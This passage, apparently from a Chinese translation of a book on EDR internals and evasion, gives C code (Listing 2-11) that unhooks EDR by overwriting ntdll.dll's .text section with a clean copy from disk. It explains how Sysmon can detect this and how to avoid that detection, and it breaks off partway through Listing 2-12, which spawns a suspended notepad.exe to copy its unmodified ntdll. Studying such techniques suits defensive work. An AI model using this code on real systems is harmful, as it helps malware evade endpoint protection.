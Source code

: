 ```
      ❸ if (!strcmp((PCHAR)pSection->Name, ".text"))
       {
           DWORD dwOldProtection = 0;
         ❹ VirtualProtect(
               (LPVOID)((ULONG_PTR)lpBaseAddress + pSection->VirtualAddress),
               pSection->Misc.VirtualSize,
               PAGE_EXECUTE_READWRITE,
               &dwOldProtection
           );

         ❺ memcpy(
               (LPVOID)((ULONG_PTR)lpBaseAddress + pSection->VirtualAddress),
               (LPVOID)((ULONG_PTR)lpFileData + pSection->VirtualAddress),
               pSection->Misc.VirtualSize
           );

         ❻ VirtualProtect(
               (LPVOID)((ULONG_PTR)lpBaseAddress + pSection->VirtualAddress),
               pSection->Misc.VirtualSize,
               dwOldProtection,
               &dwOldProtection
           );

           break;
        }
    }

    `--snip--`
}
```

列表 2-11：覆盖已钩取的 ntdll.dll 的技术

我们的代码首先获取当前已加载（被钩住的）*ntdll.dll*的基地址❶。然后我们从磁盘读取*ntdll.dll*的内容并将其映射到内存中❷。此时，我们可以解析被钩住的*ntdll.dll*的 PE 头，寻找*.text*部分的地址❸，该部分包含映像中的可执行代码。一旦找到它，我们将修改该内存区域的权限，以便能够向其中写入❹，将“干净”文件中的*.text*部分内容复制进去❺，然后恢复内存保护的更改❻。当这一系列事件完成后，原本由 EDR 放置的钩子应该已经被移除，开发人员可以调用*ntdll.dll*中的任何函数，而不必担心执行会被重定向到 EDR 注入的 DLL。

虽然从磁盘读取*ntdll.dll*看似简单，但它确实带来了潜在的权衡。这是因为将*ntdll.dll*多次加载到单一进程中并非典型行为。防御者可以通过 Sysmon 捕获这一活动，Sysmon 是一款免费的系统监控工具，提供与 EDR 相同的许多遥测收集功能。几乎每个非恶意进程都将进程 GUID 与*ntdll.dll*的加载一一对应。当我在大型企业环境中查询这些属性时，在一个月的时间内，约有 37 百万个进程中，只有大约 0.04%的进程在此期间加载了*ntdll.dll*多于一次。

为了避免基于此异常的检测，您可以选择在挂起状态下生成一个新进程，获取新进程中未修改的*ntdll.dll*的句柄，并将其复制到当前进程中。从那里，您可以像之前展示的那样获取函数指针，或者替换现有的被钩住的*ntdll.dll*，有效地覆盖 EDR 放置的钩子。示例 2-12 演示了这种技术。

```
int wmain() {
    LPVOID pNtdll = nullptr;
    MODULEINFO mi;
    STARTUPINFOW si;
    PROCESS_INFORMATION pi;
    ZeroMemory(&si, sizeof(STARTUPINFOW));
    ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

    GetModuleInformation(GetCurrentProcess(),
        GetModuleHandleW(L"ntdll.dll"),
      ❶ &mi, sizeof(MODULEINFO));

    PIMAGE_DOS_HEADER hooked_dos = (PIMAGE_DOS_HEADER)mi.lpBaseOfDll;
    PIMAGE_NT_HEADERS hooked_nt =
      ❷ (PIMAGE_NT_HEADERS)((ULONG_PTR)mi.lpBaseOfDll + hooked_dos->e_lfanew);

    CreateProcessW(L"C:\\Windows\\System32\\notepad.exe",
        NULL, NULL, NULL, TRUE, CREATE_SUSPENDED,
      ❸ NULL, NULL, &si, &pi);

```